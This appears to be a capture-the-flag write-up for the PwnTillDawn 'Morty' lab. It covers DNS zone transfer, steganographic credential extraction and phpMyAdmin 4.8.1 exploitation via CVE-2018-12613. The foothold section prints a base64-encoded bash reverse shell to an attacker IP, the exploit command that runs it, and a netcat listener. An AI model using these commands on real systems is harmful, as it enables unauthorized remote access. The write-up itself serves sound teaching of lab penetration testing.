 ```yaml
---
title: "PwnTillDawn - Morty"
author: Nasrallah
description: ""
date: 2025-04-17 07:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, medium, steganography, cve, rce]
img_path: /assets/img/pwntilldawn/morty
image:
    path: morty.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Morty](https://online.pwntilldawn.com/Target/Show/) from [PwnTillDawn](https://online.pwntilldawn.com/) is a challenge that involves using steganography to extract hidden files from images, followed by exploiting a remote code execution (RCE) vulnerability to gain a foothold.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.57
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:60:09:66:aa:1f:e8:76:d8:84:16:18:1c:e4:ee:32 (RSA)
|   256 92:09:d3:0e:f9:47:48:03:9f:32:9f:0f:17:87:c2:a4 (ECDSA)
|_  256 1d:d1:b3:2b:24:dc:c2:8a:d7:ca:44:39:24:c3:af:3d (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 147   2020-06-10 11:25  note.html
|_
|_http-title: Index of /
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, first is 22 running SSH, 53 is DNS and finally 80 is an apache web server.

### Web

Let's browse to the website.

![webiste](1.png)

We found `note.html`, clicking on it gives us the following message.

```text
Morty,
if you read this: I've already configured your domain 'mortysserver.com' on this server, don't bother me with it anymore!!
-Rick 
```

We discovered the domain `mortysserver.com` that we need to add to our `/etc/hosts` file. We can do that using the following command.

```terminal
echo '10.150.150.57 mortysserver.com' | tee -a /etc/hosts
```

Now let's navigate to the domain.

![domain](2.png)

The site load an image of rick and morty with the text `Is this a password`, and we also notice the `Fl4sk#!` text in the image, could it be the password they are talking about? I'll make a note of that and continue

#### DNS

Since we have a DNS server and a domain let's see if we can find any other information.

Let's do a zone transfer using the following command.

```bash
dig axfr mortysserver.com @10.150.150.57 
```

```terminal
; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> axfr mortysserver.com @10.150.150.57
;; global options: +cmd
mortysserver.com.       900     IN      SOA     10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
mortysserver.com.       900     IN      NS      10.150.150.57.
rickscontrolpanel.mortysserver.com. 900 IN A    10.150.150.57
mortysserver.com.       900     IN      SOA     10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
;; Query time: 93 msec
;; SERVER: 10.150.150.57#53(10.150.150.57) (TCP)
;; WHEN: Thu Apr 17 08:50:34 +01 2025
;; XFR size: 4 records (messages 1, bytes 212)
```

We discovered the subdomain `rickscontrolpanel.mortysserver.com`, let's add it to /etc/hosts and browse to it.

![phpmyadmin](3.png)

We found the login page of `phpmyadmin`, I tried couple default credentials as web as the `Fl4sk#!` password we found but nothing worked.

#### Steganography

Looking back at the first domain, we see that the password is part of the image, here I guessed the image might be hiding something.

I downloaded the image using the following command.

```bash
wget http://mortysserver.com/screen.jpeg
```

First I'll use `exiftool` to check if there is any interesting metadata.

```terminal
└──╼[★]$ exiftool screen.jpeg
ExifTool Version Number         : 12.57
File Name                       : screen.jpeg
Directory                       : .
File Size                       : 204 kB
File Modification Date/Time     : 2025:04:16 23:10:39+01:00
File Access Date/Time           : 2025:04:16 23:10:39+01:00
File Inode Change Date/Time     : 2025:04:16 23:11:07+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Image Width                     : 1256
Image Height                    : 628
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1256x628
Megapixels                      : 0.789
```

Nothing really.

We'll move to steghide which is a tool that can help us extract any embedded files inside the image.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/morty]
└──╼[★]$ steghide extract -sf screen.jpeg
Enter passphrase: Fl4sk#!
wrote extracted data to "keytotheuniverse.txt".
                                                                                                                                                                                              
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/morty]
└──╼[★]$ cat keytotheuniverse.txt 
rick:WubbaLubbaDubDub1!
```

We got prompt for a password and I submitted the one we found `Fl4sk#!` and this managed to give us a file that holds some credentials.

Now back to `phpmyadmin` let's login with the newly found username/password.

![loggedin](4.png)

## **Foothold**

After loggin in we see the version of phpmyadmin running is `4.8.1`, a quick search on google we find an RCE [CVE-2018-12613](https://nvd.nist.gov/vuln/detail/cve-2018-12613).

The exploit I'll be using can be found at <https://www.exploit-db.com/exploits/50457>

```terminal
[★]$ python exploit.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got command execution, now let's get a shell.

I'll use the following bash rev shell and encode it with base64.

```bash
echo 'bash -i >& /dev/tcp/10.66.66.230/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42Ni42Ni4yMzAvOTAwMSAwPiYxCg==
```

I'll setup a netcat listener and run the exploit again.

```bash
python exploit.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42Ni42Ni4yMzAvOTAwMSAwPiYxCg==|base64 -d|bash'
```

I used echo to pass the encoded revshell to base64 -d which would decode it, then pipe it to bash to have it executed.

Now if we check our listener we will find the shell.

```terminal
[★]$ nc -lvnp 9001                                             
listening on [any] 9001 ...
connect to [10.66.66.230] from (UNKNOWN) [10.150.150.57] 43504
bash: cannot set terminal process group (1119): Inappropriate ioctl for device
bash: no job control in this shell
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$
```

Here the challenge ends and we are not required to do any privilege escalation unfortunately :(.

## **References**

<https://nvd.nist.gov/vuln/detail/cve-2018-12613>

<https://www.exploit-db.com/exploits/50457>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
